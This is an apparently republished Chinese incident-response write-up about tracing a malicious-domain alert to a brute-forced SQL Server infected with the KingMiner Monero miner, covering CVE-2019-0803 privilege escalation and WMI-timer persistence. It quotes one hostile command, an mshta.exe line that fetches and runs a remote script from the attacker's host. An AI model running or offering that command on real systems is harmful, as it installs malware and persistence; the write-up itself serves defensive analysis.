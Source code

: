 #  【实战】记一次实战“恶意外连”事件的应急响应

聚焦网络安全分享  [ 安全聚 ](javascript:void\(0\);)

**安全聚** ![]()

微信号 sec-poly

功能介绍 安全聚-聚焦发力于网络安全技术分享。

____

___发表于_

收录于合集

记一次实战“恶意外连”事件的应急响应

## 事件背景

忙碌了一天的沐师傅正准备下班，突然一个电话响起XX局被通报《"恶意外连"事件》，需要马上前往客户现场进行应急排查。于是乎沐师傅Wuwuuwu～，背起书包奔赴客户现场。

## 应急排查

### 沟通交流

到达现场后，通过与运维人员沟通了解事件原委：客户收到了国家局通报称本单位有服务器/主机IP为`111.x.x.x`存在与恶意域名`news.g23xxx.com`进行通信行为，疑似遭受木马病毒攻击，需要应急排查事情原委，定位存在异常的主机/服务器。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234358.png)

### 定位异常主机/服务器

得知IP
`x.x.x.x`为客户互联网出口IP地址，且互联网出入口侧无态势等流量检测设备，通过排查负载、IPS、深信服上网行为管理等日志均未发现内网主机服务器与恶意域名news.g23xxx.com、解析IP`（154.x.x.x）`相关访问日志。恶意域名进行分析后发现该恶意域名在威胁情报上被标记为KingMiner挖矿木马，僵尸网络，远控服务器。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234416.png)对该恶意域名下的木马样本进行粗略查看，判断该挖矿木马是通过UDP协议进行通信，于是想了个办法，用`Wireshark`旁路到互联网出口上，抓取互联网出口侧全流量，对流量进行过滤筛选`udp
&amp;&amp; frame.contains
"g23xxx"`，终于发现存在恶意外连的流量请求，成功定位到异常服务器，内网IP地址为10.10.10.10（数据共享平台），为一台SQL
Server数据库服务器。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234418.png)

### 上机排查

遂即上机进行排查，进行日志、样本的提取，经过分析日志发现该主机存在大量恶意Powershell进程![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234421.png)在SQL
Server数据库日志中发现该服务器在`2022年3月4日11:17:02`到`2022年5月7日 21:45:15`期间遭受来自境外恶意IP
`62.x.x.x`（俄罗斯莫斯科）、`62.x.x.x`（俄罗斯莫斯科）大量爆破行为，最终爆破成功。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234422.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234425.png)当数据库爆破成功后，该IP在服务器上执行了VBS脚本下载经过`base64编码`的二进制blob文件，经过解码后保存为`C:\\Users\\Public\\Downloads\\\\tool.exe`![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234428.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234429.png)经过分析该文件`tool.exe`运行后会利用Windows权限提升漏洞`CVE-2019-0803`进行攻击，成功利用此漏洞的攻击者可以在内核模式下运行任意代码，然后可以安装程序；查看、更改或删除数据；或创建具有完全用户权限的新帐户。`tool.exe`在特权模式下执行命令`mshta.exe
vbscript:GetObject(\\"script:http\[:\]//aa.30583fdae.tk/r1.txt\\")(window.close)`，通过`mshta.exe`执行脚本`r1.txt`来进行持久化。其中`tool.exe`所请求域名`aa.30583xxxx.tk`为门罗币挖矿木马地址，威胁情报已标记为恶意：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234434.png)`Tool.exe`文件沙箱分析结果：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234435.png)

行为分析：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234437.png)

行为分析图：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234439.png)

程序运行示例图：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234441.png)

其中下载的`r1.txt`会配置名为`WindowsSystemUpdate
\_WMITimer`的计时器，并将执行一段脚本代码的事件消费者`WindowsSystemUpdate\_consumer`通过事件过滤器`WindowsSystemUpdate\_filter`绑定到计时器，从而通过计时器每15分钟执行一次下面的VBS脚本代码：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234444.png)WMI定时任务存在并已清除![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234446.png)

后续继续跟进分析发现，可能由于挖矿木马解析IP地址变更，或恶意域名不可达等原因，造成挖矿木马所需的部分程序或脚本未能成功下载到本地，经过排查，仅发现此处`tool.exe`所创建的wmi启动项，定时通过`nslookup`查询恶意域名`"news.g23xxx.com"`
DNS记录，造成本服务器访问恶意域名`"news.g23xxx.com"`触发恶意外连告警。

在此次分析过程中，还发现该服务器还存在其他木马病毒，均已提取出样本并清除：![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234449.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234451.png)至此，此次事件初步排查完成，客户已对该服务器进行断网处理，经过全盘木马病毒查杀，启动项删除，并在防火墙上封禁了该恶意域名与IP地址。

## 应急事件总结

【被攻击服务器】：`SQL
Server`服务器，数据共享平台【攻击链路】：攻击者针对`Windows`服务器`MSSQL`进行爆破攻击，爆破入侵成功后，首先执行一段`VBS`脚本，检测操作系统版本，并根据不同的系统版本下载不同的`Payload`文件，利用下载的文件`tool.exe`进行`(CVE-2019-0803)`提权以及门罗币挖矿。同时还会安装`WMI定时器`和`Windows计划任务`来反复执行指定脚本，执行服务器返回的恶意代码达到持久化攻击的目的；【木马病毒类型】：挖矿木马，挖矿类型：`KingMiner`门罗币；【安全设备运行情况】：IPS、深信服上网行为管理、服务器本地“火绒”杀毒软件未检测出异常；【处置情况】：已成功定位存在异常的内网服务器，已做断网处理，已进行全盘查杀、日志提取、样本提取等工作，客户反馈该服务器已闲置，后续不再投入使用；【持续监控】：后续将部署态势感知设备，对恢复后的网站持续监测。

  

  

  

  

END

  

转载免责

  
  
  

 **本文作者：** F1ne

 **转载来自：** forum.butian.net

  

 **转载声明：** 本文章转载来源于"奇安信攻防社区"如有侵权请告知，我们会第一时间删除处理。

 **  
免责声明：** 本公众号提供的文章内容仅供参考学习用途，禁止使用该文章用于非法用途，造成任何直接或间接的后果及损失由使用者承担。安全聚作者不承担任何责任。

微信：silentsec

 **关注"安全聚"获得更多精华文章**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234452.png)

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

